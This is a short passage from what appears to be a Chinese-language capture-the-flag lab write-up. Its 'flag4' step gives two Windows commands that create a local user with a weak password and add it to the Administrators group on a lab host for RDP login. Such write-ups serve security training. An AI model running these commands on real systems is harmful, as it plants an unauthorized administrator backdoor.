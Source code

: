 ![image-20241118204952548](images/20.png)

# flag4

在172.22.11.26添加管理员账户，rdp登录

```
net user DawnT0wn pass123 /add
net localgroup Administrators DawnT0wn /add 
```

![image-20241118205308627](images/21.png)
